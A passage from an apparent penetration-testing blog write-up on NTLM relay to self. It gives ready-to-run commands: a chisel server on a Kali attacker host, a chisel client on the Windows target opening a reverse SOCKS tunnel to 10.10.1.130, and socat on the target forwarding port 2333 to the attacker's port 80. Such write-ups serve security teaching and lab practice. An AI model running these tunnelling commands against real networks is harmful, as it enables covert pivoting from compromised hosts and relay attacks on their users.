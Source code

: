 **We will start a chisel server on our (kali linux) attacker host first**

```bash
chisel server -p 4444 --reverse &
```

**Then on the target, we connect the client back to the server to setup the tunnel:**

```bash
.\chisel.exe client 10.10.1.130:4444 R:socks
```

## Forwarding to port 80

We will need to forward to the attacker port 80 in order to catch the incoming request. We will use [socat](https://github.com/tech128/socat-1.7.3.0-windows), to start a listener on port “2333” and forward it to the attacker ip 10.10.1.130 on port 80.

![](/assets/img/posts/ntlmrelay2self/2.png)

**On the target, we forward port 2333 to attacker host “10.10.1.130”, port 80 using socat:**

```bash
.\socat.exe tcp-listen:2333,reuseaddr,fork tcp:10.10.1.130:80
```
